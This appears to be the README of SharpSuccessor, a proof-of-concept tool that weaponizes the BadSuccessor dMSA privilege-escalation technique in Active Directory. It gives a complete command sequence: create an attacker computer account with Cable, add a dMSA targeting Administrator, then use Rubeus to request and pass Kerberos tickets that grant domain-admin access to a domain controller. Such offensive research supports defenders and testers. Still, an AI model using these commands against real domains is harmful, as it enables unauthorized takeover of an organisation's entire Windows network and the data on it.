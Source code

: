 # SharpSuccessor

SharpSuccessor is a .NET Proof of Concept (POC) for fully weaponizing Yuval Gordon’s ([@YuG0rd](https://x.com/YuG0rd)) [BadSuccessor](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory) attack from Akamai. A low privilege user with `CreateChild` permissions over any Organizational Unit (OU) in the Active Directory domain can escalate privileges to domain administrator.

From low-privilege user context, first create a computer object with a tool such as [Cable](https://github.com/logangoins/Cable):
```
Cable.exe computer /add /name:attacker_computer /password:P@ssw0rd
```
![image](https://github.com/user-attachments/assets/7c2293bb-bbc3-46dd-bfbb-63b2a59e5766)

Then use SharpSuccessor to add and weaponize the dMSA object:
```
SharpSuccessor.exe add /target:Administrator /path:"ou=test,dc=lab,dc=lan" /computer:attacker_computer$ /name:attacker_dMSA
```
![image](https://github.com/user-attachments/assets/294efe2a-3fe0-496e-89e7-bff7e3ed8e36)

Finally use the previously created computer account to request a ticket as the dMSA. First requesting a TGT for the computer account:

```
Rubeus.exe asktgt /user:attacker_computer$ /password:P@ssw0rd /enctype:aes256 /opsec /nowrap
```
![image](https://github.com/user-attachments/assets/2adf8327-dcbd-4d7b-a781-e2a95946c8fb)

Then use that tgt to impersonate the dMSA account:
```
Rubeus.exe asktgs /targetuser:attacker_dmsa$ /service:krbtgt/lab.lan /opsec /dmsa /nowrap /ptt /ticket:doIF0DCCBcy...
```
![image](https://github.com/user-attachments/assets/7ee8cac1-70d3-40fb-85c3-740b86761ffb)

Now you can request a service ticket with Administrator context for any SPN, including the Domain Controllers for post-exploitation. For example here I will show admin privileges for SMB on the domain controller:

```
Rubeus.exe asktgs /user:attacker_dmsa$ /service:cifs/WIN-RAEAN26UGJ5.lab.lan /opsec /dmsa /nowrap /ptt /ticket:doIF2DCCBdS...
```
![image](https://github.com/user-attachments/assets/f4799c6d-ef21-4fbc-af2d-2fd900545937)

Now that we have the ticket in memory, we can test access:

![image](https://github.com/user-attachments/assets/6838bb98-5b7a-406a-a889-9e9236a3428f)

